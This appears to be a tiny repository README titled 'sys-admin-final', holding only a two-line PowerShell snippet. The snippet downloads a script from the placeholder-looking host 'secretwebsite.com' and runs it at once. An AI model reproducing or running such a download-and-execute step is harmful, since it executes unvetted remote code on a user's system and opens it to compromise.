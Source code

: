 # sys-admin-final

```
Invoke-WebRequest -O example.ps1 "https://secretwebsite.com"
.\example.ps1
```
